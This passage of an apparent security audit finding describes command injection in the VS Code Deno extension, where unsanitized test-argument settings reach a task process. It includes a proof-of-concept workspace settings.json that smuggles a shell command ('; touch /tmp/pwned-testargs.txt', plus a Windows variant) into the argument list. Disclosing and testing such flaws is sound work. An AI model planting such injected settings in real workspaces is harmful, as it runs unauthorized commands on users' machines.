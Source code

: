 - **Source code analysis:**
    - **File:** `client/src/commands.ts`
    - **Function:** `test`
    - **Code Snippet:**
      ```typescript
      export function test( /* ... */ ): Callback {
        return async (uriStr: string, name: string, options: TestCommandOptions) => {
          const config = vscode.workspace.getConfiguration(EXTENSION_NS, uri);
          const testArgs: string[] = [
            ...(config.get<string[]>("codeLens.testArgs") ?? []), // Unsanitized codeLens.testArgs
            ...(config.get<string[]>("testing.args") ?? []),    // Unsanitized testing.args
          ];
          const args = ["test", ...testArgs, "--filter", nameRegex, filePath];
          const definition: tasks.DenoTaskDefinition = {
            type: tasks.TASK_TYPE,
            command: "test",
            args, // Unsanitized args are passed to task definition
            env,
          };
          const task = tasks.buildDenoTask( /* ... */ , definition, /* ... */ );
          await vscode.tasks.executeTask(task);
        };
      }
      ```
      - The `test` function retrieves `deno.codeLens.testArgs` and `deno.testing.args` configurations and merges them into `testArgs`.
      - These `testArgs` are then directly included in the `args` array for the `deno test` command without sanitization.
      - The `args` array is used to create a `DenoTaskDefinition` and subsequently a `ProcessExecution` in `buildDenoTask`, leading to command injection.

- **Security test case:**
    1. Create a new folder named `vscode-deno-test-args-rce-test`.
    2. Inside `vscode-deno-test-args-rce-test`, create a folder `.vscode`.
    3. Inside `.vscode`, create a file `settings.json` with the following content to inject a command that creates a file named `pwned-testargs.txt` in the `/tmp` directory (or `%TEMP%` on Windows):
       ```json
       {
         "deno.enable": true,
         "deno.codeLens.testArgs": [
           "--allow-all",
           "; touch /tmp/pwned-testargs.txt"
         ]
       }
       ```
       (For Windows, use:
       ```json
       {
         "deno.enable": true,
         "deno.codeLens.testArgs": [
           "--allow-all",
           "; New-Item -ItemType file -Path %TEMP%\\pwned-testargs.txt"
         ]
       }
       ```
       )
    4. Inside `vscode-deno-test-args-rce-test`, create a file `test_file.ts` with the following content:
       ```typescript
       Deno.test("testExample", () => {
         console.log("Running testExample");
       });
       ```